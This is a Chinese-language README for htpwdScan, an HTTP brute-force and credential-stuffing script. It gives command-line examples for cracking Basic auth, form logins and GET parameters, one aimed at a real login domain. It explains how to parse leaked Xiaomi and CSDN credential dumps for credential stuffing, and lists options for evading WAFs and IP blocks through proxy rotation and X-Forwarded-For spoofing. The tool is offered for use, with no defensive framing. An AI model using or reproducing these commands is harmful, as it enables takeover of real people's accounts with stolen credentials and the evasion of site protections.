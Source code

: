 htpwdScan
====

**htpwdScan** 是一个简单的HTTP暴力破解、撞库攻击脚本. 它的特性：

- 支持批量校验并导入HTTP代理，低频撞库可以成功攻击大部分网站，绕过大部分防御策略和waf
- 支持直接导入互联网上泄露的**社工库**，发起撞库攻击
- 支持导入超大字典

### 简单示例 ###

* HTTP Basic认证

	>htpwdScan.py -u=http://auth.58.com/ -basic user.txt password.txt
	
	>导入用户名密码字典即可

* 表单破解
	>htpwdScan.py -f post2.txt -d passwd=password.txt -err="success\":false"
	
	>从 post2.txt 导入抓的http包，passwd是需要破解的参数，而password.txt是保存了密码的字典文件
	
	>**success":false** 是选择的失败标记，标记中若有双引号，请记得用右斜杠 \ 转义

* GET参数破解
	>htpwdScan.py -d passwd=password.txt -u="http://xxx.com/inside.php?m=login&username=test&passwd=test" -get -err="success\":false"
	
	> 使用-get参数告诉脚本此处是GET请求
	
* 撞库攻击
	> htpwdScan.py -f=post.txt -database loginname,passwd=xiaomi.txt -regex="(\S+)\s+(\S+)" -err="用户名或密码错误" -fip

	>htpwdScan.py -f=post.txt -database passwd,loginname=csdn.net.sql -regex="\S+ # (\S+) # (\S+)" -err="用户名或密码错误" -fip
	
	>使用小米和csdn库发起撞库攻击。post.txt是抓包的HTTP请求

	>参数-regex设定从文件提取参数的正则表达式，此处需分组，分组的方式是使用括号()
	
	>小米的数据行格式是 `xxx@163.com	xxxxxxx` 也即 `(用户名)空白字符(密码)`
	
	>`(\S+)\s+(\S+)` 指定第一个非空白字符拿去填充loginname，而第二个非空白字符串拿去填充passwd
	
	>csdn的数据行格式是`zdg # 12344321 # zdg@csdn.net` . 正则表达式写作`\S+ # (\S+) # (\S+)`
	
	>第一个#后面的非空白字符串填充passwd，第二个#后面的非空白字符串填充loginname
	
	>请注意，参数的顺序是重要的
	
* 校验HTTP代理
	> htpwdScan.py -f=post.txt -proxylist=proxies.txt -checkproxy -suc="用户名或密码错误"
	
	> 要破解某个网站，批量测试使用代理是否连通目标网站，把HTTP请求保存到post.txt，然后用-suc参数设定连通标记
	
	>一个简单可行的校验方式是：
	
	> htpwdScan.py -u=http://www.baidu.com -get -proxylist=available.txt -checkproxy -suc="百度一下"

## 完整参数说明 ##
脚本支持的小功能较多，请耐心阅读以下以下完整说明。建议多使用 `-debug` 参数查看HTTP请求是否有问题，没问题再发起真正的破解。

	usage: htpwdScan.py [options]
	
	* An HTTP weak pass scanner. By LiJieJie *
	
	optional arguments:
	  -h, --help            显示帮助
	
	Target:
	  -u REQUESTURL         设定目标URL, 示例.
	                        -u="https://www.test.com/login.php"
	  -f REQUESTFILE        从文件导入HTTP请求
	  -https                当从文件导入HTTP请求时，启用https(SSL)
	  -get                  使用GET方法，默认: POST
	  -basic  [ ...]        HTTP Basic 暴力破解.
	                        示例. -basic users.dic pass.dic
	
	Dictionary:
	  -d Param=DictFile [Param=DictFile ...]
	                        为参数设定字典文件,
	                        支持哈希函数如 md5, md5_16, sha1.
	                        示例. -d user=users.dic pass=md5(pass.dic)
	
	Detect:
	  -no302                无视302跳转, 默认302敏感
	  -err ERR [ERR ...]    响应文本的破解失败标记,
	                        示例. -err "user not exist" "password wrong"
	  -suc SUC [SUC ...]    响应文本中的破解成功标记,
	                        e.g. -suc "welcome," "admin"
	  -herr HERR            响应HTTP头的破解失败标记
	  -hsuc HSUC            响应HTTP头的破解成功标记
	  -rtxt RetryText       响应文本中的重试标记，出现则重试请求,
	                        示例. -rtxt="IP blocked"
	  -rntxt RetryNoText    响应文本中的重试标记,出现则重试请求，
	                        示例. -rntxt="<body>"
	  -rheader RetryHeader  响应头中的重试标记，出现则重试请求,
	                        示例. -rheader="Set-Cookie:"
	  -rnheader RetryNoHeader
	                        响应头中的重试标记，未出现则重试请求,
	                        e.g. -rheader="HTTP/1.1 200 OK"
	
	Proxy and spoof:
	  -proxy Server:Port    设定少量HTTP代理
	                        示例. -proxy=127.0.0.1:8000,8.8.8.8:8000
	  -proxylist ProxyListFile
	                        从文件批量导入HTTP代理,
	                        e.g. -proxylist=proxys.txt
	  -checkproxy           检查代理服务器的可用性.
	                        可用代理输出到 001.proxy.servers.txt
	  -fip                  随机random X-Forwarded-For欺骗源IP
	  -fsid FSID            生成随机session ID. 示例. -fsid PHPSESSID
	  -sleep SECONDS        每次HTTP结束，等待SECONDS秒,
	                        避免IP被临时屏蔽，进入黑名单
	
	Database attack:
	  -database DATABASE    导入社工库中的数据.
	                        e.g. -database user,pass=csdn.txt
	  -regex REGEX          从社工库中提取数据的字符串，必须分组.
	                        e.g. -regex="(\S+)\s+(\S+)"
	
	General:
	  -t THREADS            工作线程数，默认50
	  -o OUTPUT             输出文件.  默认: 000.Cracked.Passwords.txt
	  -debug                进入debug mode检查HTTP请求和HTTP响应
	  -nov                  只显示破解成功的条目，不显示进度
	  -v                    show program's version number and exit


### 反馈 ###

使用中若发现问题，请反馈给我。  my[at]lijiejie.com [http://www.lijiejie.com](http://www.lijiejie.com)